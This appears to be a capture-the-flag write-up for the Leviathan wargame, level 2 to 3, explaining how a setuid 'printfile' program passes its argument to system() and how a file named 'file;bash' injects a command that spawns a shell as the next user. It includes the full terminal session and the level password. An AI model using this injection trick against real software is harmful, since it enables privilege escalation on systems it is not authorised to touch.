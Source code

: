 # Leviathan Level 2 -> 3

**Password:** Q0G8j4sakn

## Solution

This level has another program that we can try running. At first I thought the easiest thing would be to test out if I just put the file path to the /etc/leviathan_pass/leviathan3 it would just spit out the password since that’s the path they always use for all the wargames. That didn’t work unfortanutely, since they already anticipated people doing that. Next thing, I used the same ltrace command to see what’s going on, and it seemed to run access() a library permission function that checks what kind of permissions do we have on a passed file. If we take a step back a bit and run this “./printfile /etc/passwd” and since I have permission to read that file

sprintf ("/bin/cat /etc/passwd", 511, "/bin/cat %s", "/etc/passwd")

So all it does is combine the given file path and runs the system function to execute it, now if you try to do the same with multiple files separated by space like ltrace  ./printfile "a.txt b.txt", I got this

system("/bin/cat a.txt b.txt"bar
/bin/cat: b.txt: No such file or directory

So I realised that this function is probably prone to some malicious user input so the first thing that jumped to was the command injection attack. Like I learned from previous wargames, I created a temp directory to play around in. As for the command injection it took me a while to understand how to use it here and eventually after reading that you can just use “;” to separate running different bash commands I can probably try it here to so the idea would be that the program would execute /bin/cat file;bash as if its a file name, but the program would evaluate this as executing /bin/cat file(file is the argument) and then evaluate the rest to run bash as a separate command. I learned about the file;bash technique online.


leviathan2@gibson:~$ ls
printfile
leviathan2@gibson:~$ mktemp -d
/tmp/tmp.bNz8oOGCub
leviathan2@gibson:~$ cd /tmp/tmp.bNz8oOGCub
leviathan2@gibson:/tmp/tmp.bNz8oOGCub$ touch 'file;bash'
leviathan2@gibson:/tmp/tmp.bNz8oOGCub$ ls
file;bash
leviathan2@gibson:/tmp/tmp.bNz8oOGCub$ cd
leviathan2@gibson:~$ ls
printfile
leviathan2@gibson:~$ ./printfile /tmp/tmp.bNz8oOGCub/file\;bash 
/bin/cat: /tmp/tmp.bNz8oOGCub/file: Permission denied
leviathan3@gibson:~$ ls
printfile
leviathan3@gibson:~$ cat /etc/leviathan_pass//leviathan3
Q0G8j4sakn
